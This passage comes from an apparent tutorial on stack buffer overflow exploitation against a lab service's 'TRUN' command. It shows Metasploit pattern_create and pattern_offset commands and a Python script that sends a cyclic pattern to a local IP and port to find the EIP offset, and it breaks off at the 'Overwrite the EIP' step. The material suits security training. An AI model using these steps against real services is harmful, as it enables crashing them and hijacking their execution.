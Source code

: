 #### Windows 10: 
look in Immunity (may or may not have over written the EIP). 


## Finding the Offset:

#### Kali Linux:
```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <"Fuzzing crashed at %s bytes">
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

after running the command copy the output and use it to modify the previous python script. 

create python script offset.py

```
#!/usr/bin/python

import sys, socket

offset = ""             # paste in here the output from offset.py

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + offset))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

Run the script and go check Immunity Debugger in Windows

#### Windows 10: 
in Immunity Debugger copy the EIP info (should be hexadecimal numbers). 

#### Kali Linux: 
```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <"Fuzzing crashed at %s bytes"> -q <EIP info>
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```
[*] Exact match found at offset 2003		<== needed so we can control the EIP

## Overwrite the EIP:
